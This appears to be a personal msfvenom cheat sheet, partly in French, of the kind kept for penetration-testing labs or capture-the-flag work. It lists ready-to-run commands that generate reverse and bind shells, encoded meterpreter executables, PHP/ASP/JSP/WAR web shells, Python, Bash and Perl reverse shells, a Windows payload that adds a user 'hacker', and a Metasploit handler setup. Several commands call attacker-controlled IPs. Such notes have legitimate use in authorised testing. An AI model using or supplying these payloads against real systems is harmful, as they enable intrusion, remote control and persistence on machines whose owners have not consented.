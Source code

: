 # msfvenom

## shellcode python:

msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\n.exe -e cmd.exe 10.10.14.23 443' -b "\x00\x0a\x0d" -f py -v payload

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -b "\x00" -f py

## old school:

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.1.214 LPORT=10443 -f exe -o myshell.exe

## lister les payloads:

msfvenom --l payloads

## lister les encoders

msfvenom -l encoders

## raw

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=80 -f hex
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f c

## shell WIndows:

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -f exe > rshell443.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=80 -f dll > my.dll

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -e cmd/powershell_base64 -i 5 -f exe > rshell443.exe

msfvenom -p windows/shell_hidden_bind_tcp ahost=10.10.14.3 LPORT=443 -e cmd/powershell_base64 -i 5 -f exe > rshell443.exe


## shell Linux

msfvenom -p linux/x64/shell/reverse_tcp RHOST=10.10.14.18 LPORT=443 -f elf > term.elf

## msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=10443 -f exe > m10443.exe



## memento:

Linux Meterpreter Reverse Shell
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
 
Linux Bind Meterpreter Shell
 msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
 
Linux Bind Shell
 msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
 
Windows Meterpreter Reverse TCP Shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
 
Windows Reverse TCP Shell
 msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
 
Windows Encoded Meterpreter Windows Reverse Shell
 msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
Mac Reverse Shell
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
Mac Bind Shell
 msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
Web Payloads
PHP Meterpreter Reverse TCP
 msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
 cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
ASP Meterpreter Reverse TCP
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
JSP Java Meterpreter Reverse TCP
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
WAR
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
Scripting Payloads
 
 Python Reverse Shell
 msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash Unix Reverse Shell
 msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl Unix Reverse shell
 msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
Shellcode
Windows Meterpreter Reverse TCP Shellcode
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Linux Meterpreter Reverse TCP Shellcode
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Mac Reverse TCP Shellcode
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Create User
 msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe


Metasploit Handler
use exploit/multi/handler
 set PAYLOAD <Payload name>
 Set RHOST <Remote IP>
 set LHOST <Local IP>
 set LPORT <Local Port>
 Run



